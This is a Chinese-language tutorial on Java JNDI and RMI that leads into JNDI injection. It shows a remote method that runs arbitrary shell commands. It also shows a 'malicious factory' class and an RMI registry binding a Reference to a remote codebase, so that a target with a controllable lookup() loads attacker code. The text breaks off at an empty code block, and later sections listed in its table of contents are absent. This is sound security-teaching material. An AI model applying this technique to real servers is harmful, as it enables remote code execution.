










- [JNDI 注入](#jndi-注入)
  - [Naming(命名)](#naming命名)
  - [Directory(目录)](#directory目录)
  - [JNDI](#jndi)
    - [Naming Serivce](#naming-serivce)
      - [Context](#context)
        - [Bind(绑定)](#bind绑定)
        - [References(引用)](#references引用)
        - [Initial Context](#initial-context)
    - [Directory Service](#directory-service)
      - [Directory](#directory)
        - [Directory Context](#directory-context)
      - [LDAP Package](#ldap-package)
    - [Event and Service Provider](#event-and-service-provider)
      - [Event](#event)
      - [Service Provider](#service-provider)
    - [示例](#示例)
      - [配置Context](#配置context)
      - [lookup](#lookup)
      - [Add, Replace or Remove a Binding](#add-replace-or-remove-a-binding)
    - [RMI](#rmi)
      - [动态加载代码](#动态加载代码)
      - [远程对象](#远程对象)
        - [远程对象的存根(Stub)](#远程对象的存根stub)
      - [数据传输机制](#数据传输机制)
      - [通过RMI创建应用](#通过rmi创建应用)
        - [定义远程接口](#定义远程接口)
        - [实现远程接口](#实现远程接口)
        - [创建Server](#创建server)
          - [Registry表](#registry表)
        - [Client](#client)
        - [SecurityManager](#securitymanager)
  - [JNDI注入](#jndi注入)
    - [动态转换](#动态转换)
    - [RMI利用](#rmi利用)
      - [Reference](#reference)
      - [恶意的factory](#恶意的factory)
      - [实现代码](#实现代码)
      - [基于JRMP](#基于jrmp)
      - [After 8u121](#after-8u121)
    - [LDAP利用](#ldap利用)
      - [实现代码](#实现代码-1)
      - [After 8u191](#after-8u191)
  - [高版本的JNDI利用](#高版本的jndi利用)
    - [使用本地的Reference Factory类](#使用本地的reference-factory类)
      - [Tomcat#BeanFactory](#tomcatbeanfactory)
      - [POC](#poc)
    - [反序列化触发本地Gadget](#反序列化触发本地gadget)
      - [com.sun.jndi.ldap.decodeObject#javaSerializedData](#comsunjndildapdecodeobjectjavaserializeddata)
  - [参考](#参考)
# JNDI 注入
## Naming(命名) 
命名就是将名称和对象相关联并且通过名称来寻找对象的方法.  
而绑定則是将一个名称和对象进行映射,比如DNS解析,将一个ip(对象)和一个域名(名称)进行绑定,通过域名(名称)即可找到对应的ip(对象).    

在不同的命令服务系统中含有不同命名规则.  
如unix文件系统,`/etc/passwd`以`/`为分隔符通过该名称即可访问到/etc目录下的passwd文件.  
LDAP命名系统,`cn=Rosanna Lee,o=Sun,c=US`,以`,`为分隔符,从右到左为组件排序,同时每个组件的名称和值用`=`分隔.  

而有时候,对象不能由命名服务进行存储,通过名称无法直接访问到对象,这时候可以通过在命令服务中将名称和一个该对象的引用进行绑定,类似于unix的文件软链接,通过名称可以在命令服务系统地得到该对象的一个引用,这个引用包含了实际对象的额外信息,通过这些额外信息再去访问真实的对象.  

而一系列的名称到对象绑定的集合也就构成了一个上下文环境(Context),相当于将不同的绑定进行分类包装起来.
## Directory(目录)
Directory可以看作是Naming的扩展,在将名称和对象进行关联的同时还对该对象设置属性(Attributes).  
**Directory = Naming + 包含属性的对象**  
通过Directory可以在通过名称获得对象的同时获取其属性或者通过其属性来寻找关联的对象.
## JNDI
JNDI全称为Java Naming and Directory Interface,是一个提供Naming和directory的应用项目接口.  
JNDI API 是用于访问任何命名或目录服务的通用 API。对命名或目录服务的实际访问是通过插入 在JNDI下的service provider来实现的。而service provider则是一个将JNDI API和实际访问naming和dicecotry服务的方法相映射的软件.  
在JDK中自带了以下四种service provider:  
* LDAP
* CORBA
* RMI
* DNS  
### Naming Serivce
Naming Service的定义包含在`javax.naming`包中,其中包含了访问Naming Service的类和接口.
#### Context
在`javax.naming`包中定义了一个核心的`Context`接口,在该接口中定义了查询(lookup),绑定(解除绑定)(binding/unbinding),重命名对象,创建和销毁subcontexts等操作.  
   
而在Context中可以看到每一个naming相关的方法都有两种重载,一种接受Name类型的参数,一种接受String类型的参数.而Name类型是一个接口,代表一个含有0或多个的组件有序序列的通用名称.
在Context中,Name类型是指CompositeName(复合名称)的实例,简单来说Name类型里面包含了一组有序的组件名称.  
而String类型就是接受单个的简单名称.  
##### Bind(绑定)
Bind即将一个name和一个object进行绑定,同样含有接受String类型和Name类型的方法,而bind是一个元组,包括object的名称,object的类名称和object自身.
  
通过`listBindings()`和`List()`方法可以得到已绑定的name和对应object的枚举列表,区别在于`List()`方法还会返回object的名称和object的类名称,而`listBindings()`只返回绑定的Object和对应的name.
##### References(引用)
object通过不同的方法存储在命名或者目录服务中,在JNDI中定义了一个Reference类来表示引用,一个reference包含了如何构造该reference关联对象的信息,而JNDI会将该reference转换为对应的java对象.
#####  Initial Context
在JNDI中,所有的命名和目录操作都是相对于一个上下文进行的.不存在绝对的根.因此,JNDI定义了一个InitialContext,它为命名和目录操作提供一个起点.一旦有了一个初始上下文,就可以用它来查找其他的上下文和对象.
### Directory Service
#### Directory
Directory Service的定义在`javax.naming.directory`包中,扩展了javax.naming包，提供了除命名服务外访问目录服务的功能。这个包允许应用程序检索与存储在目录中的对象相关的信息，并使用指定的属性搜索对象。 
##### Directory Context
DirContext接口表示一个目录上下文。DirContext也通过扩展Context接口表现为一个命名上下文。这意味着任何目录对象也可以提供一个命名上下文。它定义了检查和更新与一个目录条目相关的属性的方法。  
  
可以看到其中的bind等方法多了一个Attributes参数,这就是目录服务额外的功能,可以设置绑定对象的相关属性.  
同时可以通过`getAttributes()`方法来获取对象的所有属性或者通过`search`等方法来通过属性值搜索对象,而`Attributes`的定义如下,其内的属性值可以是无序的也可以是有序的,在构造方法中执行相应参数.    
  
可以看到可以通过add方法来设置属性值或通过set方法来修改属性值.
#### LDAP Package
LDAP包(`javax.naming.ldap`)是在Direcotory包的基础上添加的支持扩展,大部分情况下使用`javax.naming.directory`包能够满足使用LDAP的需求,而`javax.naming.ldap`包主要是添加了针对`LDAP v3`协议`javax.naming.directory`包没有覆盖到的特性.  
### Event and Service Provider
#### Event
Event主要是一些对naming和directory services的事件提醒支持,其定义位于`javax.naming.event`,用于监听naming和directory services一些变化.
#### Service Provider
Service Provider的定义位于`javax.naming.spi`包中,其中提供了一些方法让不同的naming/diretory服务提供商可以开发和hook他们的实现,让JNDI可以从应用中正确访问对应的服务,简单来说Service Provider就是对JNDI实际的实现包.  
### 示例
在使用命令和目录服务前,首先要获得当前执行环境的上下文也就是context.
#### 配置Context
1. 设置Context要使用的Service provider
Conext中的`INITIAL_CONTEXT_FACTORY`值就是当前Context的Service provider.以JDK自带的LDAP Service provider为例.
```java
        Hashtable<String,Object> env = new Hashtable<>();
        env.put(Context.INITIAL_CONTEXT_FACTORY,"com.sun.jndi.ldap.LdapCtxFactory");
``` 
2. 设置Context访问对应服务的连接信息
设置了Service provider之后,还需要设置访问对应服务的参数,如连接地址,凭证等等.
```java
        env.put(Context.PROVIDER_URL, "ldap://ldap.wiz.com:389");
        env.put(Context.SECURITY_PRINCIPAL, "joeuser");
        env.put(Context.SECURITY_CREDENTIALS, "joepassword");
```
3. 初始化
配置好context需要的各种属性后,调用`new InitialContext(env)`来获取一个可访问的context对象.  
```java
Context ctx = new InitialContext(env);
```
#### lookup
调用得到的Context对象的`lookup()`方法即可在其上下文环境中根据名称来获取相应的对象,实际上最后也就是通过Service provider实现的访问对应服务(ldap)的调用来连接指定的命名或者目录服务并进行查询返回指定的对象.  
#### Add, Replace or Remove a Binding
```java
Fruit fruit = new Fruit("orange");
// Perform the bind
ctx.bind("cn=Favorite Fruit", fruit);

// /如果名称已经绑定，那么它将被取消绑定，新给定的对象将被绑定。
Fruit fruit = new Fruit("lemon");
// Perform the bind
ctx.rebind("cn=Favorite Fruit", fruit);

//删除绑定.
// Remove the binding
ctx.unbind("cn=Favorite Fruit");
```
### RMI
Remote Method Invocation(RMI)也就是远程方法调用系统,也是JNDI自带的四种Serivece provider中的一种,其提供了在一个Java虚拟机中运行的对象可以调用在另一个Java虚拟机中运行的对象的方法,RMI为用Java编程语言编写的程序之间提供了远程通信。 
RMI的通信过程分为服务端和客户端,服务端创建一些远程的对象,然后公开这些对象的引用,等待客户端来调用这些对象的方法,而客户端则获取到一个或多个服务端上远程对象的引用,然后来调用这些对象的方法.  
步骤如下:  
1. 客户端通过某种机制获取到远程对象的引用: 如RMI的命名服务,即RMI注册表(RMI registry),服务端在注册表中注册远程对象的引用,客户端在注册表来获取该远程对象的引用.  
2. 与远程对象通信: 具体细节由RMI实现,在表面看来于常规的方法调用相似.
3. 加载传递对象的类定义: 因为对象能够来回传递,所以提供了加载对象的类定义以及传输对象的数据的机制(序列化机制)。
RMI的通信结构如图  
  
使用RMI注册表来获取对远程对象的引用。服务器调用注册表将一个名字与一个远程对象关联（或绑定）。客户端在服务器的注册表中通过其名称查找远程对象，然后对其调用一个方法.  
#### 动态加载代码
RMI的一个核心功能在于如果客户端或者服务端的jvm中没有某个对象的定义,那么客户端或服务端可以下载该对象的定义,然后在本地加载.  
#### 远程对象
使用JAVA RMI构建的应用是由接口和类组成,而一个对象通过实现一个远程接口来成为一个远程对象.  

而远程接口继承了`java.rmi.Remote`接口,远程接口用于识别其方法可以从非本地虚拟机中调用的接口。任何作为远程对象的对象必须直接或间接地实现这个接口。只有那些在 "远程接口 "中指定的方法，即扩展了java.rmi.Remote的接口才可以远程使用。  
  
可以看到`java.rmi.Remote`接口是一个空接口,起到标识的作用.

实现类可以实现任意数量的远程接口，并可以扩展其他远程实现类。RMI提供了一些方便的类(`java.rmi.server.UnicastRemoteObject和java.rmi.activation.Activatable`)，远程对象的实现可以扩展这些类，以方便创建远程对象。 
##### 远程对象的存根(Stub)
当一个远程对象从一个Java虚拟机传递到另一个Java虚拟机时，RMI对待该对象的方式与非远程对象不同。RMI不是在接收的Java虚拟机中制作一个实现对象的副本，而是为远程对象传递一个远程存根(stub)。该存根作为远程对象的本地代表或代理，对于客户来说，基本上就是远程引用,远程对象本质上是通过引用传递的,客户端在本地存根上调用一个方法，存根负责执行远程对象上的方法调用,通过引用传递远程对象意味着通过远程方法调用对对象状态的任何改变都会反映在原始远程对象中。  

一个远程对象的存根则包含了该远程对象实现的所有远程接口,并不包含该远程对象的非远程方法,这样通过本地的存根即可调用远程对象中在远程接口中定义的方法也不会泄露未公开的非远程方法.  
#### 数据传输机制  
在RMI中数据传输机制主要是客户端和服务端使用序列化按值来传输对象,这些对象是指远程方法中的参数或返回值,对于远程方法中的参数必须实现Serializable接口以供反序列化传递,也就是说远程方法中调用的参数或者返回值必须是要可序列化的,即实现了`java.io.Serializable`接口的类型.  

综合来说:
* 远程对象按引用(stub代理)传递.  
* 其它对象按值(序列化)传递.
#### 通过RMI创建应用
1. 定义远程接口: 主要是定义远程接口,该远程接口指定了可以被客户端远程调用的方法,客户端向该远程接口编程，而不是向这些接口的实现类编程。这种接口的设计包括确定将被用作这些方法的参数和返回值的对象类型。  
2. 实现远程对象: 远程对象必须实现一个或多个远程接口。远程对象类可能包括其他接口的实现和只有本地才有的方法。如果任何本地类要被用于这些方法的参数或返回值，它们也必须被实现。
3. 实现客户端: 使用远程对象的客户端可以在定义了远程接口之后的任何时候实现，包括在远程对象被部署之后。   
4. 使得远程对象可以在网络上被访问.  
5. 启动注册中心,服务端和客户端.

##### 定义远程接口
```java
package methods;

import java.rmi.Remote;
import java.rmi.RemoteException;

public interface methodRemote  extends Remote {
    String execute(String cmd) throws RemoteException;;
}


package methods;

import java.rmi.Remote;
import java.rmi.RemoteException;

public interface methodRemote2 extends Remote {
    public String sayHi() throws RemoteException;
}

//将各个远程接口合为一组
package methods;

public interface MethodRemoteAll extends MethodRemote2,MethodRemote {
}

```
##### 实现远程接口
实现远程对象,需要实现远程接口中定义的每一个远程方法,而远程方法的参数和返回值可以是任何类型,包括本地或者远程对象,只要是基元数据类型、远程对象或可序列化对象的类型的实例(实现了接口java.io.Serializable).
```java
package rmiserver;

import methods.MethodRemoteAll;

import java.io.IOException;
import java.rmi.RemoteException;
import java.util.Scanner;
//分别实现各个远程接口定义的远程方法.
public class MethodImpl implements MethodRemoteAll {
    public MethodImpl(){
        super();
    }
    @Override
    public String execute(String cmd) throws IOException,RemoteException {
        String o = "";
        ProcessBuilder p;
        if (System.getProperty("os.name").toLowerCase().contains("win")) {
            p = new ProcessBuilder("cmd.exe", "/c", cmd);
        } else {
            p = new ProcessBuilder("/bin/sh", "-c", cmd);
        }
        Scanner c = new Scanner(p.start().getInputStream()).useDelimiter("\\A");
        o = c.hasNext() ? c.next() : o;
        return o;
    }

    @Override
    public String sayHi() throws RemoteException {
        return "this is remote Object";
    }
}
```
##### 创建Server
```java
package rmiserver;

import methods.MethodRemoteAll;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.UnicastRemoteObject;

public class rmi {
    public static void main(String[] args) {
        try{
          //实现远程对象并将其导出得到stub
            MethodRemoteAll method = new MethodImpl();
            MethodRemoteAll methodStub = (MethodRemoteAll) UnicastRemoteObject.exportObject(method,0);
            //创建本地注册表,并进行绑定
            Registry registry = LocateRegistry.createRegistry();
            registry.rebind("remoteMethod", methodStub);
            System.out.println("MethodRemote bound");
    } catch (Exception e) {
        System.err.println("ComputeEngine exception:");
        e.printStackTrace();
    }
    }
}
```  
1. 创建一个远程对象,并将其导出,其中远程对象的类型是远程接口类,这样保证了stub代理中只含有远程接口定义的方法.`exportObject`的第二个参数是监听的端口号,为0表示随机端口.
2. 使得远程对象的引用(stub)可以被客户端访问,通常使用RMI注册表机制,而客户端一般是通过注册表来获得第一个需要的远程对象引用,然后根据该引用来访问其它远程对象,调用`rebind`将stub和一个名称进行绑定,客户端通过该名称即可得到该stub的引用. 

###### Registry表
一旦一个远程对象在本地主机的RMI注册表上注册，任何主机上的客户端都可以通过名称查找远程对象，获得其引用，然后调用该对象的远程方法。注册表可以由主机上运行的所有服务器共享，或者单个服务器进程可以创建并使用自己的注册表。  

默认情况下注册表监听在本地的1099端口,通过`LocateRegistry.getRegistry()`得到的也是监听在该端口的注册表,如果是其它端口则使用`LocateRegistry.getRegistryint()`指定端口.  
##### Client
```java
package methods;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RmiClient {
    public static void main(String[] args) {
        try{
            Registry registry = LocateRegistry.getRegistry(1099);
            MethodRemoteAll methodRemoteAll = (MethodRemoteAll) registry.lookup("remoteMethod");
            String res = methodRemoteAll.execute("echo 'rmi invoke'");
            String res2  = methodRemoteAll.sayHi();
            System.out.println(res);
            System.out.println(res2);
        }catch (Exception e){
            System.out.println(e.getMessage());
        }
    }
}

```  
  
RMI流程图  

##### SecurityManager  
SecurityManager可以保护JVM限制从其它地方加载的代码的访问权限,防止恶意代码对本地进行操作,如果RMI过程中传输的对象不需要RMI客户端和服务端从其它地方下载可以设置SecurityManager提供一定的安全性.  
```java
        if (System.getSecurityManager() == null) {
            System.setSecurityManager(new SecurityManager());
        }
```
创建一个`setSecurityManager`,安全管理器，它可以保护在Java虚拟机内运行的不受信任的下载代码对系统资源的访问。安全管理器决定了下载的代码是否可以访问本地文件系统或执行任何其他特权操作。如果一个RMI程序没有安装安全管理器，RMI将不会为作为远程方法调用的参数或返回值接收的对象下载类（除了来自本地类路径）,也就是动态代码加载机制.  
## JNDI注入
JNDI注入简单来说就是在JNDI接口在初始化时,如：InitialContext.lookup(URI),如果URI可控,那么客户端就可能会被攻击,这是由于一些InitialContext属性能够通过传递的地址或名称自动重写,原因是因为`lookup`方法支持动态转换.
### 动态转换
`InitialContext.lookup`能根据传递的URL协议自动转换与设置了对应的工厂(Service provider)与PROVIDER_URL(连接属性).如果设置了工厂与PROVIDER_URL,但lookup时参数能够被控制,也会优先根据lookup中的协议进行动态转换.  
```java
        Hashtable<String,Object> env = new Hashtable<>();
        env.put(Context.INITIAL_CONTEXT_FACTORY,"com.sun.jndi.ldap.LdapCtxFactory");
        env.put(Context.PROVIDER_URL, "ldap://localhost:9999");
        Context ctx = new InitialContext(env);
        ctx.lookup("rmi://localhost:9991/Calc");
```  
这里虽然指定了ldap协议,但是如果在lookup时传入的String是一个协议格式的字符串,那么在lookup的时候会根据传入String的协议返回对应的Context.  
  
在这里返回的是rmi协议的context,然后就会调用rmicontext的lookup方法,然后从该字符串获取对应的参数,最终得到该rmicontext所需要的各项参数.  
  
而这所有参数都是由传入lookup的字符串来控制,所有当传入lookup的字符串可控时,就能覆盖之前的配置让服务端来访问我们自己的恶意Naming或者Directory服务.
### RMI利用
通过指定协议为RMI,事服务器访问并得到我们注册中心的恶意远程对象,但是在服务端如果有类型转换则会异常并且我们并不能控制调用我们恶意远程对象的方法,在这里可以通过Reference类来达到RCE的目的.
#### Reference
有时候数据过大或对象不适合直接在JNDI中进行绑定时就会使用References.通过引用,可以在JNDI中绑定一个能被命名管理器解码的引用来指定原始的引用对象.  
该引用由Reference类表示,并且由地址和有关被引用对象的类信息组成,每个地址都包含有关如何构造对象.  
在JNDI服务中，RMI服务端除了直接绑定远程对象之外，还可以通过References类来绑定一个外部的远程对象（当前名称目录系统之外的对象）。绑定了Reference之后，服务端会先通过Referenceable.getReference()获取绑定对象的引用，并且在目录中保存。当客户端在lookup()查找这个远程对象时，客户端会获取相应的object factory，最终通过factory类将reference转换为具体的对象实例。
#### 恶意的factory
利用思路如下攻击者RMI服务器向目标返回一个Reference对象，Reference对象中指定某个精心构造的Factory类,该类的地址指定为远程地址(一般为HTTP服务等),目标在进行lookup()操作时，会动态加载并实例化Factory类，接着调用factory.getObjectInstance()获取外部远程对象实例.  
在这个过程中客户端首先会实例化我们指定的Factory类,那么我们便可以在该Factory类的静态代码块,构造函数中写入恶意代码,那么在实例化时便会触发恶意代码,或者重新写`getObjectInstance()`方法使其在获取远程对象时触发恶意代码.  
#### 实现代码
恶意Factory,javac 编译后class文件放到HTTP服务器上.
```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class evilFactory implements ObjectFactory {
    static {
        System.out.println("static invoke");
    }
    public evilFactory (){
        System.out.println("Construct invoke");
    }
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {

        System.out.println("getObjectInstance invoke");
        return null;
    }
}
```  
注册中心绑定Reference引用,引用指向恶意Factory class文件的远程地址.
```java
package rmiserver;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class rmi {
    public static void main(String[] args) {
        try{
            Registry registry = LocateRegistry.createRegistry(1099);
            Reference reference = new Reference("evilFactory","evilFactory","http://127.0.0.1:8089/");
            ReferenceWrapper refObjWrapper = new ReferenceWrapper(reference);
            registry.rebind("evilFactory", refObjWrapper);
            System.out.println("evilFactory reference bound");
    } catch (Exception e) {
        e.printStackTrace();
    }
    }
}
```
客户端lookup url可控.
```java
